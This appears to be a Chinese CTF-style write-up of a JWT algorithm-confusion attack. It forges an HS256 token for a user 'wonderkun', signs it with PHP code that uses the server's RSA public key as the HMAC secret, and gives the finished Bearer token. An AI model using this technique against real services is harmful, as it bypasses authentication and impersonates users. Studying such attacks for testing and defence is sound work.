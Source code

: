 #### 漏洞在这里 

https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/

伪造一个数据：

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "name": "wonderkun",
  "priv": "purple"
}

```
两部分进行base64编码之后,合起来：
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoid29uZGVya3VuIiwicHJpdiI6InB1cnBsZSJ9
```

然后获取到 wonderkun用户的pubkey为：

```
{
  "pubkey": "-----BEGIN PUBLIC KEY-----\nMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDuhvBzuGjX0ebOQzvQanMJjCzx\nK/LilBCSzVTT8tM0Nh1wb2VsoYzgBYRV3vgpCL6+XmRt94TsHoWS3h7RGsgWfK0z\nM0ftQvlB+42kvhpq3FNr0wPDCoOhfRrnoRl9llZV9SJQ6KaNjd6uZoqqDfoxwguj\nBayO2MeTdxEjnWai0wIDAQAB\n-----END PUBLIC KEY-----", 
  "result": true
}
```

用pubkey作为 HMAC_sha256的secret,算一下签名：

```php
$s = hash_hmac('sha256', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoid29uZGVya3VuIiwicHJpdiI6InB1cnBsZSJ9', "-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDuhvBzuGjX0ebOQzvQanMJjCzx
K/LilBCSzVTT8tM0Nh1wb2VsoYzgBYRV3vgpCL6+XmRt94TsHoWS3h7RGsgWfK0z
M0ftQvlB+42kvhpq3FNr0wPDCoOhfRrnoRl9llZV9SJQ6KaNjd6uZoqqDfoxwguj
BayO2MeTdxEjnWai0wIDAQAB
-----END PUBLIC KEY-----", true);
echo base64_encode($s);

// +LFGcQOT63LZuPCSHyCGA3wOqft4NTg9V6NGm1aiB68= 
```

然后合起来

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoid29uZGVya3VuIiwicHJpdiI6InB1cnBsZSJ9.+LFGcQOT63LZuPCSHyCGA3wOqft4NTg9V6NGm1aiB68=
```
根据规则：
  1. 删除等号
  2. 把 + 变为 -
  3. 把 / 变为 _ 

得到的token为

```
Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoid29uZGVya3VuIiwicHJpdiI6InB1cnBsZSJ9.-LFGcQOT63LZuPCSHyCGA3wOqft4NTg9V6NGm1aiB68
``` 

